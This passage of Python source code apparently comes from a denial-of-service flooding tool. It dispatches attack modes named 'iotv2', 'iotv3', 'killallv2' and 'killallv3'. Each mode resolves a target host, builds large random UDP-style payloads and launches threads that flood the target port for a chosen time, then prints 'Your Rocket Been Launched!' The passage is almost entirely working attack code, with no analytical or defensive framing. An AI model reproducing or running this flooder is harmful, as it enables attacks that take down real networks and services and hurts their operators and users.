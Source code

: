 				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					pack = 65500
					punch = random._urandom(int(pack))
					threading.Thread(target=randsender, args=(host, timer, port, punch)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "iotv2":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					pack = 65500
					punch = random._urandom(int(pack))
					threading.Thread(target=randsender, args=(host, timer, port, punch)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "iotv3":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					pack = 65500
					punch = random._urandom(int(pack))
					threading.Thread(target=randsender, args=(host, timer, port, punch)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "killallv2":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()
				else:
					sinput, host, timer, port = sin.split(" ")
					socket.gethostbyname(host)
					pack = 50000
					punch = random._urandom(int(pack))
					threading.Thread(target=randsender, args=(host, timer, port, punch)).start()
					print("\033[31mYour Rocket Been Launched!")
			except ValueError:
				main()
			except socket.gaierror:
				main()
		elif sinput == "killallv3":
			try:
				if running >= 1:
					print("\033[31mThere is alrady an attack going.")
					main()